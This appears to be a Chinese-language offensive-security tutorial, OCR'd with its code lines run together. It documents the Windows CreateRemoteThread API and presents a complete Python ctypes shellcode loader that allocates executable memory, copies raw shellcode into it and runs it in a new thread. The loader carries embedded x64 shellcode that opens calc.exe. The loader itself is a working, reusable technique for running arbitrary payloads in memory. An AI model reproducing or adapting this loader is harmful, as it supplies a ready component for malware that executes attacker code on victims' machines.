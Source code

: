CreateRemoteThread

创建在另一个进程的虚拟地址空间中运行的线程。

C++语法

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    HANDLE CreateRemoteThread(  [in]  HANDLE                 hProcess,                 // 要在其中创建线程的进程的句柄  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,       // 指向SECURITY_ATTRIBUTES结构的指针，该结构指定新线程的安全描述符并确定子进程是否可以继承返回的句柄。  [in]  SIZE_T                 dwStackSize,                 //    堆栈的初始大小（以字节为单位）         [in]  LPTHREAD_START_ROUTINE lpStartAddress,            // 指向应用程序定义函数类型的指针LPTHREAD_START_ROUTINE由线程执行，并表示远程进程中线程的起始地址。  [in]  LPVOID                 lpParameter,              // 指向要传递给线程函数的变量的指针。  [in]  DWORD                  dwCreationFlags,          // 控制线程创建的标志  [out] LPDWORD                lpThreadId                // 指向接收线程标识符的变量的指针);//返回值：//成功：返回值是新线程的句柄//失败：返回值为 NULL

Python 实现shellcode 加载器

shellcode加载器中分别调用VirtualAlloc、RtlMoveMemory、CreateThread、WaitForSingleObject函数来实现

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    import ctypesdef exec_shellcode(shellcode):    shellcode = bytearray(shellcode)    # 设置返回类型64位，默认32位。    ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64    # 申请内存    """    VirtualAlloc函数原型和参数如下：    LPVOID VirtualAlloc{    LPVOID lpAddress, #要分配的内存区域的地址    DWORD dwSize,      #分配的大小    DWORD flAllocationType, #分配的类型    DWORD flProtect     #该内存的初始保护属性    };    """    ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),                                              ctypes.c_int(len(shellcode)),                                              ctypes.c_int(0x3000),                                              ctypes.c_int(0x40))    buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)    # 此函数从指定内存中复制内容至另一内存里    """    RtlMoveMemory(Destination,Source,Length);    Destination ：指向移动目的地址的指针。    Source ：指向要复制的内存地址的指针。    Length ：指定要复制的字节数。    """    ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_uint64(ptr),                                         buf,                                         ctypes.c_int(len(shellcode)))    # 调用CreateThread将在主线程的基础上创建一个新线程    """    HANDLE CreateThread(    LPSECURITY_ATTRIBUTES lpThreadAttributes,#线程安全属性    SIZE_T dwStackSize,       #置初始栈的大小，以字节为单位    LPTHREAD_START_ROUTINE lpStartAddress,  #指向线程函数的指针    LPVOID lpParameter,          #向线程函数传递的参数    DWORD dwCreationFlags,       #线程创建属性    LPDWORD lpThreadId           #保存新线程的id    )    """    handle = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),                                                 ctypes.c_int(0),                                                 ctypes.c_uint64(ptr),                                                 ctypes.c_int(0),                                                 ctypes.c_int(0),                                                 ctypes.pointer(ctypes.c_int(0)))    """    调用WaitForSingleObject函数用来检测线程的状态    DWORD WINAPI WaitForSingleObject(    __in HANDLE hHandle,       #对象句柄。可以指定一系列的对象    __in DWORD dwMilliseconds  #定时时间间隔    );    """    ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle), ctypes.c_int(-1))def main():    # windows 64 弹出 计算机的shellcode    buf = b""    buf += b"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41"    buf += b"\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48"    buf += b"\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f"    buf += b"\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c"    buf += b"\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52"    buf += b"\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b"    buf += b"\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0"    buf += b"\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56"    buf += b"\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9"    buf += b"\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0"    buf += b"\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58"    buf += b"\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"    buf += b"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0"    buf += b"\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"    buf += b"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"    buf += b"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00"    buf += b"\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41"    buf += b"\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41"    buf += b"\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06"    buf += b"\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"    buf += b"\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x2e\x65"    buf += b"\x78\x65\x00"    shellcode = buf    exec_shellcode(shellcode)if __name__ == '__main__':    main()
